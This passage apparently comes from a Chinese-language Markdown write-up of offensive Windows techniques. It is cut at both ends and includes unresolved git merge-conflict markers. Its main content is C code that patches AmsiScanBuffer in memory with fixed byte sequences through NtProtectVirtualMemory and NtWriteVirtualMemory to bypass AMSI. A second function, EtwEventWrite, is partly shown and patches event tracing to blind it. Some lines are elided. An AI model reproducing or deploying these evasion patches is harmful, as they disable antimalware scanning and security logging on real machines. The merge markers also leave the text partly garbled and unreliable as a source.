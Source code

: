                  }
             }
         }
     }
     return 0;
    }
    ```
    
2.  支持加载 `amsi.dll` 对 `AmsiScanBuffer` 进行内存修补来绕过 AMSI：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    BOOL patchAMSI()
    {
    #ifdef _M_AMD64
        unsigned char amsiPatch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };//x64
    #elif defined(_M_IX86)
     unsigned char amsiPatch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };//x86
    #endif
     HINSTANCE hinst = LoadLibrary("amsi.dll");
        void* pAddress = (PVOID)GetProcAddress(hinst, "AmsiScanBuffer");
     ......
     void* lpBaseAddress = pAddress;
     ULONG OldProtection, NewProtection;
     SIZE_T uSize = sizeof(amsiPatch);
     // 通过 NTProtectVirtualMemory 更改内存保护
     _NtProtectVirtualMemory NtProtectVirtualMemory = (_NtProtectVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtProtectVirtualMemory");
     NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, PAGE_EXECUTE_READWRITE, &OldProtection);
     ......
     // 通过 NTWriteVirtualMemory Patch AMSI
     _NtWriteVirtualMemory NtWriteVirtualMemory = (_NtWriteVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
     status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)amsiPatch, sizeof(amsiPatch), NULL);
     ......
     // 通过 NTProtectVirtualMemory 恢复内存保护
     status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, OldProtection, &NewProtection);
     ......
     // 已成功 Patch AMSI
     return 1;   
    }
    ```
    
3.  通过修改内存中 `EtwEventWrite` 函数的起始字节，从而绕过 ETW：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    BOOL patchETW(BOOL revertETW)
    {
    #ifdef _M_AMD64
     unsigned char etwPatch[] = { 0 };
    #elif defined(_M_IX86)
     unsigned char etwPatch[3] = { 0 };
     ......
     // 获取指向 EtwEventWrite 的指针
     void* pAddress = (PVOID) GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventWrite");